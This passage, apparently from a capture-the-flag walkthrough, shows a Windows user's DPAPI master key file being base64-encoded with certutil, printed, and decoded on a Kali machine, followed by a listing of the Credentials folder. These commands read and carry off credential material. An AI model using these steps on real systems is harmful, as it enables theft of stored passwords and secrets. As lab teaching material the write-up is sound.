      Directory of C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001
    
    12/11/2018  04:47 PM    <DIR>          .
    12/11/2018  04:47 PM    <DIR>          ..
    08/22/2018  09:18 PM               468 0792c32e-48a5-4fe3-8b43-d93d64590580
    08/22/2018  09:18 PM                24 Preferred
                   2 File(s)            492 bytes
                   2 Dir(s)  16,764,465,152 bytes free
    

Next I’ll use `certutil` to base64 encode it:

    
    
    C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>certutil -encode 0792c32e-48a5-4fe3-8b43-d93d64590580 output                                                                                                    
    Input Length = 468
    Output Length = 700
    CertUtil: -encode command completed successfully.
    
    C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>type output
    -----BEGIN CERTIFICATE-----
    AgAAAAAAAAAAAAAAMAA3ADkAMgBjADMAMgBlAC0ANAA4AGEANQAtADQAZgBlADMA
    LQA4AGIANAAzAC0AZAA5ADMAZAA2ADQANQA5ADAANQA4ADAAAAAAAAAAAAAFAAAA
    sAAAAAAAAACQAAAAAAAAABQAAAAAAAAAAAAAAAAAAAACAAAAnFHKTQBwjHPU+/9g
    uV5UnvhDAAAOgAAAEGYAAOePsdmJxMzXoFKFwX+uHDGtEhD3raBRrjIDU232E+Y6
    DkZHyp7VFAdjfYwcwq0WsjBqq1bX0nB7DHdCLn3jnri9/MpVBEtKf4U7bwszMyE7
    Ww2Ax8ECH2xKwvX6N3KtvlCvf98HsODqlA1woSRdt9+Ef2FVMKk4lQEqOtnHqMOc
    wFktBtcUye6P40ztUGLEEgIAAABLtt2bW5ZW2Xt48RR5ZFf0+EMAAA6AAAAQZgAA
    D+azql3Tr0a9eofLwBYfxBrhP4cUoivLW9qG8k2VrQM2mlM1FZGF0CdnQ9DBEys1
    /a/60kfTxPX0MmBBPCi0Ae1w5C4BhPnoxGaKvDbrcye9LHN0ojgbTN1Op8Rl3qp1
    Xg9TZyRzkA24hotCgyftqgMAAADlaJYABZMbQLoN36DhGzTQ
    -----END CERTIFICATE-----
    
    C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>del output
    

I’ll paste that base64 text into a file on my machine, and decode it:

    
    
    root@kali# cat masterkey.b64 | base64 -d > masterkey
    

I’ll do the same thing for the credentials file:

    
    
    C:\Users\security\AppData\Roaming\Microsoft\Credentials>dir /a
     Volume in drive C has no label.
     Volume Serial Number is 9C45-DBF0
    
     Directory of C:\Users\security\AppData\Roaming\Microsoft\Credentials
    
    08/22/2018  09:18 PM    <DIR>          .
    08/22/2018  09:18 PM    <DIR>          ..
    08/22/2018  09:18 PM               538 51AB168BE4BDB3A603DADE4F8CA81290
                   1 File(s)            538 bytes
                   2 Dir(s)  16,764,465,152 bytes free
    